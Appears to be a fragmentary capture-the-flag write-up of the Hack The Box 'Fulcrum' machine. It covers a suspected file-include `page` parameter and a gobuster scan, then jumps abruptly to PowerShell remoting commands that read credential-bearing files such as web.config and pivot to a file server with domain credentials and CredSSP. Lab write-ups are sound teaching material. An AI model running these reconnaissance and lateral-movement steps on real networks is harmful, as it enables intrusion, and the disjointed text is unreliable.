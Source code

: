 !["Under Maintenance"](/assets/fulcrum/9.png "Under Maintenance")


Clicking to try again redirects you to `/index.php? page=home`Looking at this we might be able to take advantage of a file include (or SSRF) type vulnerability just based on the `page` parameter. @Jhaddix gave a great talk called ["Hunt"](https://github.com/bugcrowd/HUNT/blob/master/slides/DEF%20CON%2025%20-%20HUNT.pdf) at defcon, and to sum it up it's an analysis of web vulnerabilities, and their most common parameters associated with those vulnerability." I highly recommend reading/watching the video on the talk because it will help recognize potential vulnberbilites in web applications much quicker. 

Running gobuster against the site, reveals us some additional content to explore.

```
root@dastinia:~/htb/fulcrum# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.62:4 -x php,html -s 200,204,301,302,307,403 -t 100 | tee gobuster_fulcrum_4r_fulcrum_4

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.62:4/
[+] Threads      : 100
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 302,307,403,200,204,301
[+] Extensions   : .php,.html
=====================================================
/index.php (Status: 200)
/home.php (Status: 200)
/upload.php (Status: 200)
=====================================================
```


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke